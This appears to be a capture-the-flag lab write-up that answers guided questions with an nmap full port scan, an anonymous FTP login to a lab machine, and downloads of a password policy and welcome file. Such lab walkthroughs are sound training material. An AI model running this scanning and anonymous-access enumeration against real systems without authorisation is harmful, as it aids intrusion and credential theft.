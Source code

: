 # How many TCP ports are open?
> nmap -sT -p- -T5 <target-ip>
  PORT   STATE SERVICE
  21/tcp open  ftp
  22/tcp open  ssh
> 2

# What is the name of the directory that is available on the FTP server?
> ftp anonymous@10.129.181.13
  Connected to 10.129.181.13.
  220 (vsFTPd 3.0.3)
  331 Please specify the password.
  Password: 
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
> ftp> ls
  229 Entering Extended Passive Mode (|||27618|)
  150 Here comes the directory listing.
  drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
  226 Directory send OK.
> ftp> cd ftp
  550 Failed to change directory.
> ftp> cd mail_backup
  250 Directory successfully changed.
> ftp> ls
  229 Entering Extended Passive Mode (|||35323|)
  150 Here comes the directory listing.
  -rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf
  -rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022
  226 Directory send OK.
ftp> mget password_policy.pdf welcome_28112022 // to download

password_policy.pdf:
![screenshot](./img/password_policy.png)


